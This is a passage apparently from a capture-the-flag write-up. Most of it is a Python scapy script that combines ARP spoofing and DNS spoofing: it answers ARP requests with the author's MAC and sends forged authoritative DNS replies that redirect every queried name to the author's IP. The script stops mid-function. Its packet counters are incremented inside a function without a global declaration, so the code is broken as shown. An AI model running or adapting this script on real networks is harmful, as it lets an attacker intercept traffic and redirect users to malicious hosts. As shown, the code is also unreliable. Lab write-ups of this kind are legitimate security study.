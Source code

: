 ```
if __name__ == "__main__":
    main()
```

Just as before, this is mostly there but we need some tweaks. For simplicity, I'm going to combine my ARP and DNS responders into one script.

```
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src)
    ip  = IP(dst=packet[IP].src, src=ipaddr_we_arp_spoofed)
    udp = UDP(dport=packet[UDP].sport, sport=53)
    dns = DNS(
        id=packet[DNS].id,
        qd=packet[DNS].qd,
        aa=1,
        qr=1,
        an=DNSRR(
          rrname=packet[DNS].qd.qname,
          ttl=10,
          rdata=ipaddr
        )
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def handle_arp_packets(packet):
    ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)

    arp_response = ARP(pdst=packet[ARP].psrc)
    arp_response.op = 2

    arp_response.hwsrc = macaddr
    arp_response.psrc = packet[ARP].pdst 
    arp_response.hwdst = packet[Ether].src
    arp_response.pdst = packet[ARP].psrc

    response = ether_resp/arp_response

    sendp(response, iface="eth0")

ARP_HANDLED = 0
DNS_HANDLED = 0

def handle_packets(packet):
    if ARP in packet and packet[ARP].op == 1 and ARP_HANDLED < 5:
        handle_arp_packets(packet)
        ARP_HANDLED += 1
    elif DNS in packet and packet[DNS].opcode == 0 and packet[DNS].ancount == 0 and DNS_HANDLED < 5:
```